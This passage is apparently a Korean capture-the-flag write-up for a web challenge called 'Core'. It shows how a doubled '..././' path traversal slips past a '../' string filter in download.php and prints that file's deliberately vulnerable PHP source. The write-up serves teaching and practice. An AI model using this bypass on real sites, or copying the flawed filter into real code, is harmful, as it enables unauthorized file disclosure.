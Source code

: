 # Core

**Description:**
> 핵(Core = Hack = Nucleus) 실험은 진행 중... :(


## Write-up
![Main](img/001.png)
메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 된다.

우선 다운로드 되는 경로를 살펴보면 다음과 같다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack.php, the.php, planet.php와 같이 파일명을 입력하면 php 확장자(.php)를 붙여서 다운로드 된다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있다.  
/download.php?file=download  
/download.php?file=../download

하지만, 두 경우 모두 "Not Found"로 파일을 다운로드 받을 수가 없다.

상대 경로로 상위로 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있다.  
/download.php?file=../hack

시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었다.  
이 부분을 우회하기 위해서 "../" 문자열 속에 "../"을 이중으로 넣어서 우회할 수 있다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있다.  
/download.php?file=..././download

download.php:
```
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

